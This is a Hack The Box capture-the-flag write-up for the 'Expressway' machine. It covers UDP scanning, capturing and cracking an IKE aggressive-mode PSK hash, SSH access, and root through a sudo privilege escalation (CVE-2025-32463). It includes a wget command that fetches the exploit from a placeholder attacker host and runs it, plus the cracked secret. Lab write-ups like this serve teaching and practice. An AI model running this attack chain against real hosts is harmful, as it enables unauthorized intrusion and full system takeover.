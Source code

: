 ```yaml
---
clayout: ctf
title: Expressway
date: 2025-09-22
image: /ctf/hack-the-box/machines/expressway/info-card.png
type: Hack The Box

ctf:
    - name: Expressway
      link: https://app.hackthebox.com/machines/736
      thumbnail: /ctf/hack-the-box/machines/expressway/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/736
          thumbnail: /ctf/hack-the-box/machines/expressway/pwned.png
---
```


## Machine Overview

We found an IKE responder that leaked an Aggressive-Mode PSK hash, cracked the PSK offline, used the recovered secret to access the machine as `ike`, and then escalated to root via an unpatched `sudo` binary (CVE-2025-32463).

## Enumeration

### Nmap

We start with a service/version scan to identify exposed services.

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.87
```

**Scan output:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```

Only SSH is exposed on the host.

Scanning for UDP services we can see that there is a UDP service running on port 500.

```bash
nmap -sU -A -oN udp-nmap.txt 10.10.11.87
```

**UDP scan output:**

```bash
PORT    STATE SERVICE
500/udp open  isakmp
```

This service is running IKE, so we can use `ike-scan` to scan for IKE responders.

### IKE discovery & PSK capture

Using `ike-scan` in aggressive mode we can force the responder to return data that can be used to generate an offline cracking target.

```bash
ike-scan --aggressive --pskcrack=pskhash.txt 10.10.11.87
```

**Output:**

```bash
10.10.11.87  Aggressive Mode Handshake returned HDR=(CKY-R=...) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) ... Hash(20 bytes)
```

The `--pskcrack=pskhash.txt` option writes the necessary parameters to `pskhash.txt` for offline cracking.

### Cracking the PSK

We used `psk-crack` to run a dictionary attack against the captured hash.

```bash
psk-crack -w /usr/share/wordlists/rockyou.txt pskhash.txt
```

**Output:**

```bash
Running in dictionary cracking mode
key "freakingrockstarontheroad" matches SHA1 hash a3f3d0eb14adbe273eba65e9ff68105a71227380
```

> Recovered PSK: `freakingrockstarontheroad`

## Gaining access (SSH)

With the recovered secret, we can log in via SSH as the `ike` user.

```bash
ssh ike@10.10.11.87
```

**Output:**

```bash
ike@expressway:~$ id
uid=1001(ike) gid=1001(ike) groups=1001(ike),13(proxy)
```

> [!IMPORTANT] User flag
> `/home/ike/user.txt`

## Privilege escalation

### Find SUID / sudo binary

We searched for SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

**Output:** from all the output only two binaries are interesting:

```bash
# ... more output
/usr/local/bin/sudo
/usr/bin/sudo
# ... more output
```

We got two `sudo` binaries, by checking the version we can see that the `/usr/local/bin/sudo` is the vulnerable version.

```bash
/usr/local/bin/sudo --version
```

**Output:**

```bash
Sudo version 1.9.17
Sudoers policy plugin version 1.9.17
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.17
Sudoers audit plugin version 1.9.17
```

This version is vulnerable to a known local privilege escalation (CVE-2025-32463). Using this [PoC](https://github.com/KaiHT-Ladiant/CVE-2025-32463) we can exploit the vulnerability.

### Exploitation

We hosted the exploit script on our attacker machine and retrieved it from the target, then executed it to obtain a root shell.

> [!TIP]
> Use `python3 -m http.server 1337` to host the exploit script on our attacker machine. And `wget http://<YOUR_IP>:1337/cve-2025-32463.sh` to retrieve it from the target.

```bash
chmod +x cve-2025-32463.sh
./cve-2025-32463.sh
```

**Exploit output:**

```bash
[*] Exploiting CVE-2025-32463...
[*] Attempting privilege escalation...
root@expressway:/# id
uid=0(root) gid=0(root) groups=0(root),13(proxy),1001(ike)
```

> [!IMPORTANT] Root flag
> `/root/root.txt`
